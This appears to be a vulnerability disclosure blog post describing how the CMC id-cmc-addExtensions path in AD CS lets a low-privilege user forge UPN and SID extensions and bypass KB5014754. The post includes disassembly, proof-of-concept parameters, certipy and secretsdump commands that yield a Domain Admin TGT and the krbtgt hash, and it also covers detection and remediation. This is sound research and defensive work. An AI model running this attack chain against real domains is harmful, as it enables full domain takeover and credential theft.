

A fully patched AD CS issued me a client-auth certificate with **no `szOID_NTDS_CA_SECURITY_EXT` in it at all.** No requester SID. Not mine, not anyone's. The extension that is the entire point of KB5014754 was simply absent from the issued certificate.

That is one line of output from a thirty-second lab run, and it is the whole finding. Everything else in this post — the disassembly, the two bugs, the Domain Admin TGT at the end — follows from it.

Before you close the tab: **yes, this needs an ESC1-shaped template, and no, that doesn't make it a misconfiguration.** KB5014754 was sold as the mitigation *for* the ESC1 templates you can't immediately delete. Patch, set enforcement to `2`, and your leftover `ENROLLEE_SUPPLIES_SUBJECT` template is safe — that was the official promise, and a great many environments are running on it right now. This post shows that promise doesn't hold on the CMC submission path. It is not "ESC1 is bad." Everyone knows ESC1 is bad. It's "the patch you deployed *because* you couldn't kill ESC1 yet doesn't cover you." I take that argument head-on in [The part where I have to be fair](#the-part-where-i-have-to-be-fair), with the control runs against default templates to back it.

I reported it. Microsoft closed it as **"Not a Vulnerability"** and told me the certificate-issuance behaviour "operates by design." So I put it back on the lab and recorded every byte.

## At a glance

| | |
|---|---|
| **Impact** | Unprivileged domain user → Domain Admin TGT → krbtgt hash |
| **Preconditions** | One ESC1-shaped template (`ENROLLEE_SUPPLIES_SUBJECT`, `clientAuth` EKU, low-priv enroll, no `REQUIRE_UPN`) |
| **Defeats** | KB5014754 SID stamping, `StrongCertificateBindingEnforcement = 2` |
| **Does *not* require** | `EDITF_ATTRIBUTESUBJECTALTNAME2` (this is not ESC6), enrollment-agent rights, manager approval |
| **Vendor status** | MSRC case — closed "Not a Vulnerability," no fix |
| **Tested on** | Windows Server 2019, OS build `10.0.17763.8755`. CA: `certsrv.exe 10.0.17763.8385`, policy module `certpdef.dll 10.0.17763.6893`. DC: `10.0.17763.8511`, `StrongCertificateBindingEnforcement = 2`. Server 2022 / 2025 **untested** — the code paths look the same in the binaries, but I have not run it there, so I'm not claiming it. |

I'm going to build up the background properly first. If you already live in AD CS internals, skip to [The primitive](#the-primitive-cmc-and-id-cmc-addextensions).

## How a certificate becomes a logon

PKINIT is Kerberos pre-authentication with a certificate instead of a password. You hand the KDC a cert, you prove you hold the private key, the KDC hands you a TGT for whatever principal that cert represents. The whole thing hinges on one question the KDC has to answer: *which account is this certificate?*

For years the answer was "read the UPN out of the Subject Alternative Name and look up the account with that UPN." That is the soft underbelly. If you can get a CA to issue you a certificate whose SAN says `administrator@domain`, and the KDC maps identity by UPN, you are the administrator. That is the core of ESC1: a template with `ENROLLEE_SUPPLIES_SUBJECT`, a `clientAuth`-capable EKU, and enroll rights for low-priv users. You supply your own SAN, you supply `administrator`, you PKINIT as administrator. Done.

## Certifried, and the patch that was supposed to end it

CVE-2022-26923 (Certifried) and the ESC1 family forced Microsoft's hand. The fix shipped in **KB5014754**, and the important half of it lives in a new certificate extension:

```
szOID_NTDS_CA_SECURITY_EXT  =  1.3.6.1.4.1.311.25.2
```

The idea is clean. When the CA issues a certificate, it stamps *the requester's own SID* into that extension. Not the SID of whoever the SAN claims to be. The SID of the account that actually authenticated to the CA. Then on the KDC side you set `StrongCertificateBindingEnforcement`:

- `0` disabled,
- `1` compatibility, warn but allow,
- `2` full enforcement.

At `2`, the KDC pulls the SID out of that extension and checks it against the account the SAN maps to. Forge a SAN of `administrator` all you like. The extension still carries *your* RID, the KDC sees the mismatch, and it throws the request out. On paper ESC1 is dead the moment the CA and DC are patched and enforcement is at `2`.

That "on paper" is doing an enormous amount of work.

## The primitive: CMC and id-cmc-addExtensions

Most people submit a cert request as a plain PKCS#10 CSR. But AD CS also speaks **CMC** (Certificate Management over CMS, RFC 5272), a richer envelope that wraps your CSR inside a signed CMS structure and lets you attach *control attributes* alongside it.

One of those controls is `id-cmc-addExtensions`:

```
id-cmc-addExtensions  =  1.3.6.1.5.5.7.7.8
```

Its documented purpose is to let a registration authority add X.509 extensions to a request on the enrollee's behalf. Think of it as a side channel that says "also, put these extensions in the issued cert." The control references a body part (your CSR) and carries a list of extensions to graft onto it.

The interesting question, the one that started this, is simple: **when I push extensions through `id-cmc-addExtensions`, does the CA run them through the same allowlist it uses for enrollee-supplied request extensions? Or is that a different, less careful code path?**

It's a different, less careful code path. Here's the code.

## Reverse engineering, part 1: the certsrv.exe allowlist gap

Everything below is from `certsrv.exe` pulled straight off the live CA: **Server 2019, `certsrv.exe 10.0.17763.8385`, image base `0x140000000`** (confirmed from the PE header). Analysis in Ghidra. Every address in this section is from that one image.

`certsrv.exe` funnels request extensions through one dispatcher — `FUN_14002b090`. The first thing it does is mask the caller-supplied flag and branch on it:

```c
// FUN_14002b090 — request-extension dispatcher
uVar15 = param_2 & 0xf0000;          // keep only bits 16..19 of the flag
if (uVar15 == 0x50000) {
    // Allowlist A — the CA-renewal extension set
    // AIA (1.3.6.1.5.5.7.1.1), CDP (2.5.29.31), AKI (2.5.29.35),
    // SKI (2.5.29.14), CAVersion (1.3.6.1.4.1.311.21.1)
} else {
    if (uVar15 != 0x90000) goto LAB_14002b198;   // <-- the hole
    // Allowlist B — SKI (2.5.29.14) only
}
// extension is on an allowlist, process it against the list
LAB_14002b198:
// extension NOT on any allowlist — but we still fall through here,
// and downstream this reaches SetCertificateExtension anyway
```

Same thing at the instruction level, if you prefer it raw:

```
14002b0dd: AND  R15D, 0xf0000      ; mask = flag & 0xf0000
14002b0e4: CMP  R15D, 0x50000      ; Allowlist A?
14002b0eb: JNZ  0x14002b13f
14002b13f: CMP  R15D, 0x90000      ; Allowlist B?
14002b146: JNZ  0x14002b198        ; neither -> skip both lists
...
14002b198: [extension processing]
14002b287: CALL 0x140045ef4        ; ICertServerPolicy::SetCertificateExtension
```

So the dispatcher only *knows* two allowlist worlds: `0x50000` and `0x90000`. Any other value in those bits and it never consults a list at all. It just carries the extension down to `SetCertificateExtension`.

Now find the caller for `id-cmc-addExtensions`. The CMC control handler — `FUN_140030a30`, which `strcmp`s the incoming control OID against `"1.3.6.1.5.5.7.7.8"` — processes the addExtensions attribute and calls the dispatcher with a hardcoded flag:

```c
// FUN_140030a30 — id-cmc-addExtensions handler, on OID match:
FUN_14002b090(param_1, 0x80002, extensions, count);   // call at 0x140030b43
```

Do the arithmetic the dispatcher does:

```
0x80002 & 0xf0000 = 0x80000
0x80000 != 0x50000   ->  not allowlist A
0x80000 != 0x90000   ->  not allowlist B
->  no list is ever checked
->  every extension I put in id-cmc-addExtensions reaches SetCertificateExtension
```

`0x80000` is a value the dispatcher was simply never taught to handle. There is no allowlist for the CMC addExtensions path. Whatever extension OID I want — SAN (`2.5.29.17`), EKU, basic constraints, and critically `szOID_NTDS_CA_SECURITY_EXT` (`1.3.6.1.4.1.311.25.2`) — goes into the issued certificate.

### Who is allowed to sign this

You might expect that submitting a CMC control needs some privileged registration-authority cert. It doesn't. The CMC message is decoded and its signer verified in `FUN_14003151c` (`CryptMsgOpenToDecode` → `CryptMsgGetAndVerifySigner`), before `FUN_140030a30` ever runs:

```c
CryptMsgGetAndVerifySigner(hMsg, 0, NULL, 4 /* CMSG_SIGNER_ONLY_FLAG */, &pSigner, NULL);
```

`CMSG_SIGNER_ONLY_FLAG` verifies that the CMS was signed by the key matching the signer cert. It does **not** validate the signer's chain or its purpose. `certsrv.exe` does insist the signer be a cert the CA itself issued — a self-signed cert gets bounced with `CERT_E_UNTRUSTEDROOT` — but that bar is on the floor. Any low-priv user can auto-enroll a throwaway cert from any template they can touch and use that to sign the CMC. My PoC does exactly that with `--auto-signer`: it burns through templates until one issues, and signs with whatever it gets. On my CA it landed on `EFS`.

**Bug one, stated plainly: the `id-cmc-addExtensions` path in `certsrv.exe` applies no extension allowlist, and the signer only needs to hold any CA-issued cert.** That already lets me forge an arbitrary SAN. On an unpatched world that alone is game over.

But we are not unpatched. We have KB5014754. The SID extension is supposed to save us. So what happens to it?

## Reverse engineering, part 2: where the SID stamp lives, and where it doesn't

The half of KB5014754 that matters here is the `szOID_NTDS_CA_SECURITY_EXT` stamp: on issuance the CA is supposed to write the authenticated caller's SID into that extension, and if the request tried to smuggle in its own copy, overwrite it with the real one. That overwrite is the entire defence.

The first thing worth saying is *which* binary does the stamping, because I got this wrong at first and the disassembly corrected me. The obvious suspect is `certca.dll`, the CA helper library.

It isn't there. The OID string `1.3.6.1.4.1.311.25.2` does not appear anywhere in `certca.dll`. The only neighbour present is `1.3.6.1.4.1.311.25.1`, the replication OID. What `certca.dll` *does* carry is the SAN machinery: the SAN OID `2.5.29.17` and the UPN otherName OID `1.3.6.1.4.1.311.20.2.3`, wired into a SAN reader (`FUN_180010a78`, which `CertFindExtension`s `2.5.29.17` and walks the GeneralNames) and a per-name decoder (`FUN_18000fb2c`, which `strcmp`s the UPN OID and pulls the UPN string out). `certca.dll` *reads and maps* the names on a request. It never writes the SID security extension.

The SID stamp lives one layer up, in the default **policy module `certpdef.dll`** (`CertificateAuthority_MicrosoftDefault.Policy`) — the component that runs `VerifyRequest` and decides which extensions land on the issued cert. `certpdef.dll` *does* contain the OID strings: `1.3.6.1.4.1.311.25.2` at `0x180025590` and `1.3.6.1.4.1.311.25.2.1` (`szOID_NTDS_OBJECTSID`) at `0x1800255c0`. Both are referenced by exactly one function: `FUN_180012ee8`. That is the KB5014754 stamp writer. `certca.dll` supplies the name-parsing primitives; `certpdef.dll` makes the stamping decision.

This distinction matters for more than tidiness. It means **`certca.dll`'s file version tells you nothing about whether the defence under test is present** — a point I'll come back to in the lab section, and one worth knowing if you're validating your own environment.

`FUN_180012ee8` opens with two guards, and the second one is the entire bug:

```
; certpdef.dll  FUN_180012ee8  (SID-stamp writer; RSI = request/context object)

180012f2d: TEST dword [RSI+0x14], 0x80000   ; template has CT_FLAG_NO_SECURITY_EXTENSION?
180012f34: JZ   0x180012f4d
180012f42: CALL <log>                        ; "Skipping the addition of security
180012f48: JMP  0x18001318c                  ;  extension as per the template config."

180012f4d: MOV  EBX, 0x1
180012f52: TEST byte [RSI+0x18], BL          ; <-- bit0: "request supplies its own subject/exts"
180012f55: JZ   0x180012ffe                  ;     bit0 == 0  -> GENERATE the caller's SID
;   fall through                             ;     bit0 == 1  -> TRUST whatever the request supplied
```

Trace both sides, because they are exactly my lab results.

**Generate path** (`bit0 == 0`, jumps to `0x180012ffe`) is the honest KB5014754 behaviour. It calls `FUN_18000f04c` to fetch the *authenticated caller's* SID as a string, builds the `1.3.6.1.4.1.311.25.2.1` inner value, and writes the extension with `FUN_180003f78`. This is the branch that is supposed to run. It stamps *you*.

**Trust path** (`bit0 == 1`, fall-through at `0x180012f5b`) never generates anything. It calls `FUN_180003ed4` to *read the extension the request already carries*:

```
180012f69: CALL 0x180003ed4                  ; read request's own 1.3.6.1.4.1.311.25.2
180012f70: CMP  EAX, 0x80094004              ; not present?
180012f75: JNZ  0x180012f7e
180012f77: XOR  EBX, EBX                     ; -> return SUCCESS, stamp NOTHING
180012f79: JMP  0x18001318c
; else (present): clear one flag bit and re-set the SAME value the request supplied
```

Read that against the experiments. On the trust path, if the request has **no** SID extension, the function returns success and writes nothing — the issued cert has no `szOID_NTDS_CA_SECURITY_EXT` at all. **That is Experiment A, byte for byte.** If the request *does* carry one, it keeps the value the request supplied, normalising only a flag bit. **That is Experiment B, byte for byte, RID 31337 and all.** No branch on this path ever consults the authenticated caller's SID.

Which path runs is decided entirely by bit 0 of `[RSI+0x18]`. The caller — `FUN_18001164c`, the `VerifyRequest` extension pipeline, which invokes the stamp at `0x180011852` — branches on the *same* bit:

```c
if ((*(uint *)(param_1 + 0x18) & 1) == 0) {
    FUN_18000e3d4(...);      // normal path: derive the requester identity extensions
    ...
} else {                     // request-supplies-own path
    FUN_180012780(...);
    FUN_180012ee8(...);      // -> stamp writer takes its TRUST branch
}
```

That bit is the "request supplies its own subject and extensions" context — the enrollee-supplied-subject world. Set it, and `certpdef.dll` skips deriving your identity and simply trusts the request, both for the subject *and* for the SID security extension. An ESC1 template (`ENROLLEE_SUPPLIES_SUBJECT`, no `REQUIRE_UPN`) submitted over MS-ICPR lands squarely on that branch. Templates carrying `REQUIRE_UPN` do not, which is precisely why the attack dies on `User`/`Administrator` and lives on `VulnTemplate`.

That is the whole defect in one sentence: **on the enrollee-supplies-subject path, the KB5014754 SID stamp is not generated by the CA — it is copied from the request, and bug one lets me put anything I want in the request.**

Now let me show it firing, three ways, on hardware you can check.

## The lab

Nothing exotic. One domain, one CA, one DC, and a nobody user.

```
DC01   192.168.0.110   Server 2019  17763.8511
SRV03  192.168.0.123   Enterprise CA  SILENTSTRIKE-SRV03-CA

attacker  cmctest / <redacted>
          SID  S-1-5-21-12494900-2147801102-4061876462-1135
          groups: Domain Users, and nothing else

target    administrator
          SID  S-1-5-21-12494900-2147801102-4061876462-500
```

Three preconditions everyone will want proven rather than asserted, so here they are.

**The DC is at full enforcement.** Read out of the registry, not taken on faith:

```
PS C:\> Get-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Services\Kdc' `
          -Name StrongCertificateBindingEnforcement

StrongCertificateBindingEnforcement : 2
```

**The CA carries a working KB5014754 policy module.** This is the version that matters, because `certpdef.dll` — not `certca.dll` — is what stamps the SID ([part 2](#reverse-engineering-part-2-where-the-sid-stamp-lives-and-where-it-doesnt) walks the disassembly):

```
certpdef.dll  10.0.17763.6893   <- the module that does the SID stamping
certsrv.exe   10.0.17763.8385
```

And I don't ask you to trust a version string for it. The stamp **demonstrably runs** on this CA: point the same injection at a template that is *not* enrollee-supplies-subject (`Machine`) and the CA overwrites my SID with the requester's real one ([see below](#the-part-where-i-have-to-be-fair)). The defence is present and it works — CMC-ADDEXT bypasses it specifically on the enrollee-supplies-subject path. That is a much harder thing to wave away than a version number, and it's the evidence that actually matters.

> A note, because I got this wrong in my first draft: don't evidence "patched" with `certca.dll`'s file version. `certca.dll` only parses names; it never writes the SID extension (part 2). Its version tells you nothing about whether the defence under test is present. Windows also stamps these component DLLs oddly — the `FileVersion` string resource can read `10.0.17763.1` while the real serviced build is in the numeric fields — so quote the numeric version, and better yet prove the behaviour.

**This is not ESC6.** `EDITF_ATTRIBUTESUBJECTALTNAME2` (`0x40000`) is not set — `EditFlags` is `0x11014e`. This is not the `san:` request-attribute trick. The SAN goes in through the CMC control, at the `certsrv.exe` layer, before any of that EditFlags logic runs.

The template, `VulnTemplate`, is a plain ESC1 template:

```
msPKI-Certificate-Name-Flag : 1   (CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT)
                                   CT_FLAG_SUBJECT_ALT_REQUIRE_UPN NOT set
msPKI-RA-Signature          : 0   (no enrollment-agent signature required)
pKIExtendedKeyUsage         : 1.3.6.1.5.5.7.3.2  (Client Authentication)
                              1.3.6.1.5.5.7.3.1  (Server Authentication)
DACL                        : Domain Users -> Enroll
```

Yes, that's ESC1. The point of the patch was to make *this exact template* safe. So let's see if it is.

## Three experiments that decide it

The PoC (`cmc_addext_poc.py`) builds the CMC by hand: fresh RSA key, a plain CSR with `CN=CMC Test`, then an `id-cmc-addExtensions` control carrying the extensions I want grafted on, signed with an auto-enrolled throwaway cert, submitted over MS-ICPR. I parse the *issued* certificate afterward with a separate script, because I don't trust the PoC to grade its own homework and neither should you.

The only variable across the three runs is what I inject. The whole argument lives in that one column.

### Experiment A: forge the SAN, inject no SID

```
--inject-upn administrator@silentstrike.io      (and nothing else)
```

Issued cert, requestId 855, parsed independently:

```
SAN_UPN   = administrator@silentstrike.io
NTDS_SID  = ABSENT  (no security extension in the certificate at all)
```

Read that again. A patched CA, handed a request from `cmctest`, issued a certificate with **no `szOID_NTDS_CA_SECURITY_EXT` whatsoever.** It did not stamp my SID. It did not stamp anyone's SID. The extension that is the entire point of KB5014754 is simply not present.

That is the single fact that matters, and it's the fact Microsoft's closing statement says is impossible.

### Experiment B: forge the SAN, inject a SID that belongs to no one

```
--inject-upn administrator@silentstrike.io
--inject-sid S-1-5-21-12494900-2147801102-4061876462-31337   (RID 31337, no such account)
```

Issued cert, requestId 858, parsed independently:

```
SAN_UPN   = administrator@silentstrike.io
NTDS_SID  = S-1-5-21-12494900-2147801102-4061876462-31337   [ASCII]
```

I asked for RID 31337, an account that does not exist, and the certificate came out carrying RID 31337. The CA did not correct it. It did not replace it with `cmctest`'s real RID 1135. It printed whatever I told it to. **I control the SID field outright.**

Between A and B the case is closed at a mechanical level. On this path the CA writes no SID of its own (A), and it faithfully carries whatever SID I hand it (B). There is nothing left to "identify the requesting user."

### Experiment C: forge the SAN, inject the admin's real SID

Now just aim it. UPN of administrator, SID of administrator.

```
--inject-upn administrator@silentstrike.io
--inject-sid S-1-5-21-12494900-2147801102-4061876462-500
```

Issued cert, requestId 851, serial `1e000003534a058e882dc84038000000000353`. The raw bytes of the security extension, because at this point you deserve the actual DER:

```
30 3d a0 3b 06 0a 2b 06 01 04 01 82 37 19 02 01
a0 2d 04 2b 53 2d 31 2d 35 2d 32 31 2d 31 32 34
39 34 39 30 30 2d 32 31 34 37 38 30 31 31 30 32
2d 34 30 36 31 38 37 36 34 36 32 2d 35 30 30

-> SEQUENCE { [0] { OID 1.3.6.1.4.1.311.25.2.1 (szOID_NTDS_OBJECTSID)
              [0] OCTET STRING "S-1-5-21-...-500" } }
```

Parsed:

```
SAN_UPN   = administrator@silentstrike.io
NTDS_SID  = S-1-5-21-12494900-2147801102-4061876462-500   [ASCII]
```

A certificate, issued by a fully patched CA to a member of Domain Users, whose SAN says administrator and whose KB5014754 SID extension says administrator. A matched pair. The forgery the patch exists to prevent.

## Cashing it in

The KDC only cares whether the pair is consistent. It is.

```
$ certipy auth -pfx forged_admin.pfx -password addext \
      -dc-ip 192.168.0.110 -domain silentstrike.io -username administrator

[*] Certificate identities:
[*]     SAN UPN: 'administrator@silentstrike.io'
[*]     Security Extension SID: 'S-1-5-21-12494900-2147801102-4061876462-500'
[*] Using principal: 'administrator@silentstrike.io'
[*] Trying to get TGT...
[*] Got TGT
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@silentstrike.io':
        aad3b435b51404eeaad3b435b51404ee:<redacted>
```

"Got TGT." At enforcement `2`.

Then the part where MSRC asked me, in writing, whether I could actually demonstrate full domain compromise. Replicate the krbtgt with the recovered hash:

```
$ secretsdump.py -hashes :<redacted> \
      silentstrike/administrator@192.168.0.110 -just-dc-user krbtgt

[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:<redacted>
```

krbtgt hash out of the DC. Golden-ticket-the-forest territory. `cmctest`, RID 1135, member of nothing, now owns the domain. (Hashes redacted — it's a throwaway lab, but there's no reason to feed every threat-intel scraper a real krbtgt.)



## The part where I have to be fair

Here is the honest nuance, and I'd rather say it myself than have someone say it for me. **This needs an ESC1-shaped template to exist**: `ENROLLEE_SUPPLIES_SUBJECT`, a `clientAuth` EKU, low-priv enroll rights, and no `REQUIRE_UPN`. No template that ships *published* by default has that shape — the built-in clientAuth templates carry `REQUIRE_UPN` or `REQUIRE_DNS`, which drags the SAN and SID back to the caller and kills the attack. You need a `VulnTemplate` in the environment.

I tested that boundary instead of asserting it, because it's the obvious "yeah but does it work on defaults" question. Two defaults a low-priv user can actually reach:

- **`User`**, the default clientAuth template Domain Users can enroll, carries `REQUIRE_UPN`. Inject all you want; the policy module rewrites both the SAN and the SID to you. Dead.
- **`Machine`**, reachable because `MachineAccountQuota` lets any Domain User create a computer account, is clientAuth with no `REQUIRE_UPN` — which looks promising. I created a machine account, gave it a `dNSHostName`, and fired the exact same injection (admin UPN + admin SID) at it. The issued cert came back `Subject: CN=mazlab.silentstrike.io`, `SAN: DNSName=mazlab...` — its `REQUIRE_DNS` overwrote my forged UPN — and, decisively, `NTDS SID = ...-1143`, the machine account's own RID, not the `...-500` I injected. `Machine` isn't enrollee-supplies-subject, so `certpdef.dll` took the *generate* branch and stamped the real requester. Blocked on both the SAN and the SID.

So the trust branch really is gated on the enrollee-supplies-subject bit, and the only thing that lands on it is an ESC1-shaped template. Microsoft leans on this to call the whole thing a configuration problem.

Which brings us back to the argument I opened with. If the story ended at "ESC1 exists," fine — that's a misconfig, everyone agrees, go remove the template. But KB5014754 was not shipped as a nice-to-have alongside template hygiene. It was shipped, and documented, as the thing that makes a leftover `ENROLLEE_SUPPLIES_SUBJECT` template survivable while you work through the removal. That is why enforcement level `2` exists as a target state in every hardening guide written since 2022. Environments took that deal in good faith.

A defence that fires on one submission path and silently no-ops on another is a broken defence. That's a code defect in the servicing behaviour, not a customer misconfiguration.

## What MSRC actually said

I'll quote it, because the quotes are the point.

Mid-review, the case manager wrote:

> "it may be possible to obtain a certificate with the SAN set to 'Administrator'. However, the certificate also includes a SID extension that identifies the requesting user. When the SAN and SID reference different identities, Kerberos mapping is expected to fail, and the certificate is rejected."

Experiment A: the certificate includes **no** SID extension identifying the requesting user, or anyone. Experiment B: I choose the SID, it isn't the requesting user, and nothing gets rejected. The premise is factually wrong on this path, and it takes two thirty-second runs to show it.

The closing verdict, months later:

> "This submission is assessed as Not a Vulnerability... The reported certificate-issuance behavior operates by design. Per the documented AD CS design, when the certificate template does not require the enrollee to supply the subject, the CA derives the certificate subject from directory information and includes the security extension containing the requestor's SID unless it is specifically suppressed."

Notice the tell. That paragraph describes templates where the enrollee does **not** supply the subject. My template has `ENROLLEE_SUPPLIES_SUBJECT` set — the enrollee absolutely does supply the subject. The rejection describes a different template class than the one in the PoC. Whatever they reproduced, it wasn't this.

I'm not going to pretend the timeline didn't sting. Two case numbers, a "we require a valid PoC," a full recorded end-to-end video sent, weeks of "engineers are working through the backlog," and then a close-out whose stated reason two of my own control runs disprove. I get that triage is a firehose. But "by design" is a strong claim, and the bar for it should be higher than a repro of the wrong template.

## Reproduce it yourself

The argument only works if you can check it, so here's the short version. Build a lab, then:

1. Publish a template with `msPKI-Certificate-Name-Flag = 1`, `msPKI-RA-Signature = 0`, `clientAuth` in `pKIExtendedKeyUsage`, and `Enroll` for `Domain Users`. Confirm `CT_FLAG_SUBJECT_ALT_REQUIRE_UPN` is **not** set.
2. Confirm `StrongCertificateBindingEnforcement = 2` on the DC and `EDITF_ATTRIBUTESUBJECTALTNAME2` is **not** in the CA's `EditFlags`.
3. As an unprivileged user, run **Experiment A only** — forge the UPN, inject nothing else.
4. Parse the issued certificate with something that isn't my tooling. `openssl x509 -text` will do; look for `1.3.6.1.4.1.311.25.2`.

If the extension isn't there, you've reproduced the finding, and you can stop — A is sufficient to show the defence didn't run. B and C are just aim.

The full CMC builder (`cmc_addext.py`), the independent cert parser, the three-experiment runner, and the reverse-engineering notes are on GitHub: **[github.com/MazX0p/cmc-addext](https://github.com/MazX0p/cmc-addext)**. Go check my work.

## Detection

If you can't remove the template, you can at least watch for it. Be aware of what the event log does and doesn't give you.

- **The bad news first:** `4886` (request received) and `4887` (request approved and issued) do not surface CMC control OIDs. You cannot filter for `id-cmc-addExtensions` from the security log alone. To see the control you need the request blob itself — pull it from the CA database (`certutil -view -restrict "RequestID=<n>" -out RawRequest`) and parse the CMS. Practical approach: alert on the cheaper signals below, then retrieve and parse the raw request for anything that fires.
- **Identity mismatch is the real tell.** Issued certs where `Request.RequesterName` bears no relationship to the identity in the SAN, and where the Subject CN doesn't match the SAN UPN. `cmctest` requesting a cert that says `administrator` is the whole attack in one row. This is queryable directly: `certutil -view -restrict "Disposition=20" -out "RequestID,RequesterName,CommonName,SerialNumber"`.
- **Missing SID extension on a clientAuth issuance.** Post-KB5014754, a client-auth cert issued to a user principal with no `szOID_NTDS_CA_SECURITY_EXT` should be anomalous in your environment. It is the direct artefact of Experiment A. Worth baselining — if you have a lot of them, you have a lot of enrollee-supplies-subject enrollment, which is its own finding.
- **Correlate to the KDC.** `4768` (TGT via PKINIT) for a privileged principal shortly after an unusual issuance on the CA. Join on certificate serial.
- **Certipy's `find -vulnerable` will flag the ESC1 template regardless of KB5014754.** Believe it. The patch does not make that template safe on this path.

## Remediation

Order of preference:

1. **Remove the ESC1 template.** If a low-priv principal can enroll a `clientAuth` template with `ENROLLEE_SUPPLIES_SUBJECT` and no `REQUIRE_UPN`, that is the actual hole. KB5014754 or not, get rid of it. This is the only fix that fully closes it today.
2. **Set `CT_FLAG_SUBJECT_ALT_REQUIRE_UPN`** on any `clientAuth` template you must keep. On templates that carry it, the policy module rewrites the SAN and SID to the caller after the CMC control runs, and the attack dies. This is the reliable workaround, and it's the one to reach for if step 1 is blocked by an application owner.
3. **Require manager approval or an RA signature** (`msPKI-RA-Signature > 0`) so requests go pending and a human has to look.
4. **Restrict MS-ICPR** to the CA from networks that have no business enrolling over RPC. Reduces the surface, doesn't remove the bug.

And the actual fix, the one only Microsoft can ship:

- Teach the `certsrv.exe` dispatcher that `0x80000` is not a free pass, and run CMC-injected extensions through a real allowlist — `szOID_NTDS_CA_SECURITY_EXT` should never be settable from a request under any circumstances.
- Make `certpdef.dll`'s `FUN_180012ee8` take the *generate* branch unconditionally, on every issuance path including enrollee-supplies-subject, overwriting anything the request supplied. The trust branch has no legitimate reason to exist for this specific extension.

A defence you can route around by picking a different submission verb is not a defence.

## Timeline

```
2026-04-10   Initial report to MSRC (earlier CMC/CES case family)
2026-05-29   New case prepared, id-cmc-addExtensions vs KB5014754 SID stamping
2026-06-10   Full end-to-end PoC + recorded video + tooling submitted
2026-06-11   MSRC Case 121785 opened
2026-06-17   "assessment not complete, we'll reach out"
2026-06-27   "engineers still working through the backlog"
2026-07-22   Closed: "Not a Vulnerability ... operates by design"
2026-07-27   Re-validated end-to-end on a fully patched lab. This post.
```

I'm publishing because the case is closed, no fix is coming, and I think the assessment is wrong in a way that leaves people exposed while believing they're covered.

## Closing

Nothing here is theoretical. It's a member of Domain Users, a patched CA, a patched DC at full enforcement, and a krbtgt hash on the other end. The three control experiments are the whole argument, and any of you with a lab can run them in an afternoon and see the same output I did.

If you're on the MSRC side and you're reading this: the repro is a template with `ENROLLEE_SUPPLIES_SUBJECT` set and no `REQUIRE_UPN`, submitted over MS-ICPR, with the SID injected through `id-cmc-addExtensions` — not the `san:` attribute. Run experiment A. If your issued certificate has no `szOID_NTDS_CA_SECURITY_EXT` in it, we're looking at the same bug, and it was never by design.
